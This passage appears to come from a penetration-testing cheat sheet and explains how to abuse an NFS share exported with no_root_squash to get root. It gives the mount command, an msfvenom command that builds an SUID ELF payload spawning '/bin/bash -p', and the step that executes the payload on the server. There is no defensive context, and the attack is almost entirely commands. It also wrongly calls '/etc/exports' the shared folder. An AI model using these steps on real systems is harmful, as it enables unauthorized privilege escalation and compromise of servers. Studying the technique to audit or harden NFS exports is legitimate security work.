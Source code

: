 If we have a mounted folder with **no_root_squash** option we can do the following steps to get privilege escalation:

1. Become root user in the client machine
2. Create a directory in the shared folder(`/etc/exports`) and mount it as root user:
```bash
mkdir /tmp/nfs

mount -o rw,vers=3 {SERVER-IP}:/tmp /tmp/nfs
```
3. Create a simple payload in the client-side to run the `/bin/bash` command:
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

chmod +xs /tmp/nfs/shell.elf
```
4. In the server-side run
```bash
/tmp/nfs/shell.elf
```
